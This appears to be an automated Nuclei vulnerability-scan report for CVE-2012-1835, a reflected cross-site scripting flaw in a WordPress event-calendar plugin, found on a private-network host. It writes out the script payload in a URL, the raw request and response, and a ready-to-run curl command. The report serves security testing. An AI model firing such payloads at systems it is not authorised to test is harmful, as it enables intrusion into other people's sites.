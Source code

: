 ### WordPress Plugin All-in-One Event Calendar 1.4 - Reflected Cross-Site Scripting (CVE-2012-1835) found on http://192.168.198.179:8080/
---
**Details**: **CVE-2012-1835**  matched at http://192.168.198.179:8080/

**Protocol**: HTTP

**Full URL**: http://192.168.198.179:8080/wp-content/plugins/all-in-one-event-calendar/app/view/agenda-widget.php?title=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

**Timestamp**: Wed Jun 8 20:22:24 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | WordPress Plugin All-in-One Event Calendar 1.4 - Reflected Cross-Site Scripting |
| Authors | daffainfo |
| Tags | cve, cve2012, wordpress, xss, wp-plugin |
| Severity | medium |
| Description | Multiple cross-site scripting vulnerabilities in the All-in-One Event Calendar plugin 1.4 and 1.5 for WordPress allow remote attackers to inject arbitrary web script or HTML via the (1) title parameter to app/view/agenda-widget-form.php; (2) args, (3) title, (4) before_title, or (5) after_title parameter to app/view/agenda-widget.php; (6) button_value parameter to app/view/box_publish_button.php; or (7) msg parameter to /app/view/save_successful.php. |
| CVE-ID | [CVE-2012-1835](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2012-1835) |
| CVSS-Score | 0.00 |

**Request**
```http
GET /wp-content/plugins/all-in-one-event-calendar/app/view/agenda-widget.php?title=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E HTTP/1.1
Host: 192.168.198.179:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.1 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.0 200 OK
Connection: close
Content-Length: 268
Content-Type: text/html

<HTML><HEAD><TITLE>File Not Found</TITLE></HEAD><BODY><H1>Cannot find this file.</H1>The requested file: <B>/wp-content/plugins/all-in-one-event-calendar/app/view/agenda-widget.php?title=</script><script>alert(document.domain)</script></B> was not found.</BODY></HTML>
```

References: 
- https://nvd.nist.gov/vuln/detail/cve-2012-1835
- http://archives.neohapsis.com/archives/bugtraq/2012-04/0071.html
- http://www.securityfocus.com/bid/52986
- https://www.htbridge.com/advisory/htb23082

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.1 Safari/537.36' 'http://192.168.198.179:8080/wp-content/plugins/all-in-one-event-calendar/app/view/agenda-widget.php?title=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)